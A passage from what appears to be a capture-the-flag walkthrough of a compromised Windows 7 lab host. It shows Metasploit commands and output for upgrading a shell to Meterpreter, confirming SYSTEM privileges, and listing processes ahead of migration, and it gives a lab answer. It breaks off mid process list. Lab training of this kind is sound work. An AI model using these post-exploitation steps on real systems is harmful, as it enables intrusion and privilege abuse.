 Once the meterpreter shell conversion completes, select that session for use.

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

```
meterpreter > sysinfo
Computer        : JON-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter > shell
Process 2200 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>^Z
Background channel 1? [y/N]  y
meterpreter > 
```

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

3044

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 540   532   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 548   684   svchost.exe           x64   0        NT AUTHORITY\SYSTEM
 588   532   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 600   580   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 604   816   WmiPrvSE.exe
```